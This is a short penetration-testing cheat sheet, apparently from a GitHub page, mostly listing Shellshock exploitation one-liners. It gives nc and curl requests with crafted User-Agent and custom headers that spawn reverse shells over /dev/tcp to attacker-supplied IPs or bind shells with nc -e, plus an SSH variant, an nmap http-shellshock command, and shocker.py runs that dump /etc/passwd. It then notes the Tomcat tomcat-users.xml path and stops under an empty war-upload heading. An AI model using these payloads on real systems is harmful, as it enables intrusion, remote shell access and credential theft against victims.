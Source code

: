 ## manual_exploitation

- echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc [victim_ip] 80

- curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" [victim_ip]/cgi-bin/status

- curl http://[victim_ip]/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "

- curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/[your_ip]/[your_port] 0>&1' http://[victim_ip]/cgi-bin/test.sh


## exploitaion_SSH
```
ssh username@$[victim_ip] '() { :;}; /bin/bash'
```
## nmap_script
```
nmap --script -p [victim_port] http-shellshock --script-args uri=[/vuln/path] cmd=[yours_command] [victim_ip]
```
## smb
```
#TODO
```

## Shellshock_tool
***shocker***: https://github.com/nccgroup/shocker

shocker sample:
``` 
python shocker.py -H [victim_ip]  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose;  ./shocker.py -H [victim_ip]  --command "/bin/cat /etc/passwd" -c /cgi-bin/admin.cgi --verbose
```
---------------------------------------------------------------------------------------------------------------------------------------------------------------

# Apache Tomcat
--------------------------------------------------------------------------------------------------------------------------------

## Get tomcat-users
- /usr/share/tomcat9/etc/tomcat-users.xml
- 

## Upload war file via commandline
